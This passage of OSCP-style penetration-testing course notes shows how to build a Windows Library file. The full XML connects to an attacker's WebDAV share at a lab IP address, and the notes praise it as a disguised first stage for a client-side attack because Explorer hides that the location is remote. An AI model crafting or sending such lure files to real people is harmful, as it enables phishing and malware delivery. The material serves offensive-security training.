 > Listing 16 - templateInfo and folderType tags

Let's paste the code into Visual Studio Code.

We have just reviewed the XML code for all the sections of our library File. We now have a basic understanding of the inner workings of library files and can customize them to fit our needs. The following listing shows the entire XML:

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

> Listing 17 - Windows Library code for connecting to our WebDAV Share

Let's save and close the file in Visual Studio Code. We'll then double-click the **config.Library-ms** file on the Desktop.

![[OffSec/OSCP/z. images/d8b645f0dd9b64e1cec0f574e1958f4d_MD5.jpg]]

Figure 28: Double-Clicking the Windows Library file

When we open the directory in Explorer, we find the previously created **test.txt** file we placed in the WebDAV share. Therefore, the library file works and embeds the connection to the WebDAV share.

Very nice!

As a bonus, the path in the navigation bar only shows **config** without any indication that this is actually a remote location. This makes it a perfect first stage for our client-side attack.

When we re-open our file in Visual Studio Code, we find that a new tag appeared named [*serialized*](https://docs.microsoft.com/en-us/windows/win32/search/search-schema-sconn-simplelocation).\[ The tag contains base64-encoded information about the location of the *url* tag. Additionally, the content inside the *url* tags has changed from **http://192.168.119.2** to **\\\\192.168.119.2\\DavWWWRoot**. Windows tries to optimize the WebDAV connection information for the [Windows WebDAV client](https://www.webdavsystem.com/server/access/windows) and therefore modifies it.

![[OffSec/OSCP/z. images/fc3d71aa6d974f454c113529bc4d1192_MD5.jpg]]
